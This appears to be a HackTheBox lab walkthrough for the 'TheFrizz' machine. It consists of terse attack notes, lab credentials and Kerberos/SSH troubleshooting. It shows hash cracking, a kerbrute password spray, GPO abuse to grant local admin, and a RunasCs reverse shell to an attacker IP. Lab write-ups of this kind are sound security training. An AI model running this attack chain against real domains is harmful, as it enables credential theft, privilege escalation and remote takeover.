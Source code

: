 # TheFrizz \[Medium]



<pre data-overflow="wrap"><code>f.frizzle valid

WES is migrating applications and tools to stronger security protocols. During this transition, Ms. Fiona Frizzle will be migrating Gibbon to utilize our Azure Active Directory SSO. Please note this might take 48 hours where your accounts will not be available. Please bear with us, and thank you for your patience. Anything that can not utilize Azure AD will use the strongest available protocols such as Kerberos. 

https://github.com/maddsec/CVE-2023-34598
http://frizzdc.frizz.htb/Gibbon-LMS/?q=gibbon.sql

.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;" 
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "select * from gibbon.gibbonperson;"
10.4.32-MariaDB

hashcat64.exe -m 1410 hash.txt rockyou.txt -d 1 -O
its going fast alright but maybe a problem with the format of hash iono

echo 'f.frizzle:$dynamic_62$067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03$/aACFhikmNopqrRTVz2489' > hash
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt hash


SSH open no winrm, smb again no luck
sudo faketime -f '+7h' python3 getTGT.py -dc-ip 10.10.11.60 frizz.htb/'f.frizzle':'Jenni_Luvs_Magic23'

export KRB5CCNAME=f.frizzle.ccache; faketime -f '+7h' ssh f.frizzle@frizz.htb -K

Look for deleted fie in recycle bin

<strong>$shell = New-Object -ComObject Shell.Application
</strong>$recycleBin = $shell.Namespace(0xA)
$recycleBin.items() | Select-Object Name, Path

Restore deleted file

$recycleBin = (New-Object -ComObject Shell.Application).NameSpace(0xA)
$items = $recycleBin.Items()
$item = $items | Where-Object {$_.Name -eq "wapt-backup-sunday.7z"}
$documentsPath = [Environment]::GetFolderPath("Desktop")
$documents = (New-Object -ComObject Shell.Application).NameSpace($documentsPath)
$documents.MoveHere($item)


faketime -f "+7h" scp f.frizzle@frizz.htb:C:/Users/f.frizzle/Desktop/wapt-backup-sunday.7z ~/htb/rooms/frizz 
cat waptserver.ini

!suBcig@MehTed!R
[FIX]
faketime -f '+7h' ./kerbrute_linux_amd64 passwordspray -d FRIZZ.HTB ~/htb/rooms/frizz/output.txt '!suBcig@MehTed!R' --dc 'FRIZZDC.FRIZZ.HTB' -v
KRB_AP_ERR_SKEW Clock skew too great [Rest show invalid which means this the one]

sudo faketime -f '+7h' python3 getTGT.py -dc-ip 10.10.11.60 frizz.htb/'M.SchoolBus':'!suBcig@MehTed!R'

faketime -f '+7h' bloodhound-python -u 'f.frizzle' -p 'Jenni_Luvs_Magic23' -d frizz.htb -dc frizzdc.frizz.htb -ns 10.10.11.60 -c all --zip

New-GPO -Name "whatever"
New-GPLink -Name "whatever" -Target "OU=Domain Controllers,DC=frizz,DC=htb"
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName whatever
gpupdate /force


.\RunasCs.exe "M.SchoolBus"  '!suBcig@MehTed!R' powershell.exe -r 10.10.14.2:9001
Catch revshell with all privs
</code></pre>

<figure><img src="../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

```
[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB

[realms]
    FRIZZ.HTB = {
        kdc = FRIZZDC.FRIZZ.HTB
        admin_server = FRIZZDC.FRIZZ.HTB
        default_domain = FRIZZ.HTB
```

### Creds

```
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

{% code title="SHA256 password with salt separated by colon" %}
```
067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489
```
{% endcode %}

```
f.frizzle:Jenni_Luvs_Magic23 
```

### Enum

```
frizz\w.webservice is running the MySQL service [NTLM Responder]
SMB, RPC, LDAP no access
```

### Proof

#### Broken SSH auth via Kerberos

<figure><img src="../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
export KRB5CCNAME=f.frizzle.ccache; faketime -f '+7h' ssh f.frizzle@frizz.htb -K

PROBLEMS
1. Cannot find KDC for realm "FRIZZ.HTB"

No credentials were supplied, or the credentials were unavailable or inaccessible
added /etc/krb5.conf
2. Server not found in Kerberos database

how create /etc/krb5.conf file

[libdefault]
        default_realm = FRIZZ.HTB

[realms]
        FRIZZ.HTB = {
                kdc = frizzdc.frizz.htb
                admin_server = frizzdc.frizz.htb
        }

[domain_realm]
        frizz.htb = FRIZZ.HTB
        .frizz.htb = FRIZZ.HTB
        
###This one technically wasn't the krb5 file that fixed it, the one above did
        
smb listing also works with our ticket
faketime -f '+7h' netexec smb frizzdc.frizz.htb -d frizz.htb  -k --use-kcache
SMB         frizzdc.frizz.htb 445    frizzdc          [*]  x64 (name:frizzdc) (domain:frizz.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         frizzdc.frizz.htb 445    frizzdc          [+] frizz.htb\f.frizzle from ccache 

Our ticket is valid by calling klist which shows valid result

klist
Ticket cache: FILE:f.frizzle.ccache
Default principal: f.frizzle@FRIZZ.HTB

Valid starting     Expires            Service principal
08/15/25 08:58:00  08/15/25 18:58:00  krbtgt/FRIZZ.HTB@FRIZZ.HTB
        renew until 08/16/25 08:57:41

enabled gssapiauthentication in ssh_config   
     
MY GUESS
its a problem with the krb5.conf file , we're not pointing to the right direction
initially problem with skew, then no realm and krb file fixed that but now its saying it cant find the server in kb db
what is the server in kerberos database atp?

THE FIX
frizzdc.frizz.htb comes first boys
whatever the server in the conf file is thats first mate
so we modified admin_server and kdc to frizz.htb, switched hosts order and frizz.htb came first
so that didnt work which means the kdc and server names are not mutable and we'd have to find it (guess)
the web root was hosted at dcfrizz.frizz.htb and it mentioned all auth would be via kerberos there so it makes sense that the server would at the same domain name.
```
{% endcode %}

